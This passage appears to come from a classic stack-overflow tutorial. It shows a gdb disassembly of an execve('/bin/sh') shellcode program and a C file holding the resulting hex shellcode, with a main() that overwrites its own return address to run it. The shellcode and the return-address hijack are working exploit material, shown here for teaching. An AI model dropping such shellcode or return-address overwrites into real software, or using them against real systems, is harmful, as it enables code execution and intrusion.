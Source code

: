 </PRE>
```nasm
[aleph1]$ gcc -o shellcodeasm -g -ggdb shellcodeasm.c
[aleph1]$ gdb shellcodeasm
(gdb) disassemble main
Dump of assembler code for function main:
0x8000130 <main>:       pushl  %ebp
0x8000131 <main+1>:     movl   %esp,%ebp
0x8000133 <main+3>:     jmp    0x800015f <main+47>
0x8000135 <main+5>:     popl   %esi
0x8000136 <main+6>:     movl   %esi,0x8(%esi)
0x8000139 <main+9>:     movb   $0x0,0x7(%esi)
0x800013d <main+13>:    movl   $0x0,0xc(%esi)
0x8000144 <main+20>:    movl   $0xb,%eax
0x8000149 <main+25>:    movl   %esi,%ebx
0x800014b <main+27>:    leal   0x8(%esi),%ecx
0x800014e <main+30>:    leal   0xc(%esi),%edx
0x8000151 <main+33>:    int    $0x80
0x8000153 <main+35>:    movl   $0x1,%eax
0x8000158 <main+40>:    movl   $0x0,%ebx
0x800015d <main+45>:    int    $0x80
0x800015f <main+47>:    call   0x8000135 <main+5>
0x8000164 <main+52>:    das
0x8000165 <main+53>:    boundl 0x6e(%ecx),%ebp
0x8000168 <main+56>:    das
0x8000169 <main+57>:    jae    0x80001d3 <__new_exitfn+55>
0x800016b <main+59>:    addb   %cl,0x55c35dec(%ecx)
End of assembler dump.
(gdb) x/bx main+3
0x8000133 <main+3>:     0xeb
(gdb)
0x8000134 <main+4>:     0x2a
(gdb)
.
.
.
```
<PRE>

testsc.c
</PRE>
```C
char shellcode[] =
        "\xeb\x2a\x5e\x89\x76\x08\xc6\x46\x07\x00\xc7\x46\x0c\x00\x00\x00"
        "\x00\xb8\x0b\x00\x00\x00\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80"
        "\xb8\x01\x00\x00\x00\xbb\x00\x00\x00\x00\xcd\x80\xe8\xd1\xff\xff"
        "\xff\x2f\x62\x69\x6e\x2f\x73\x68\x00\x89\xec\x5d\xc3";

void main() {
   int *ret;

   ret = (int *)&ret + 2;
   (*ret) = (int)shellcode;

}
```
<PRE>
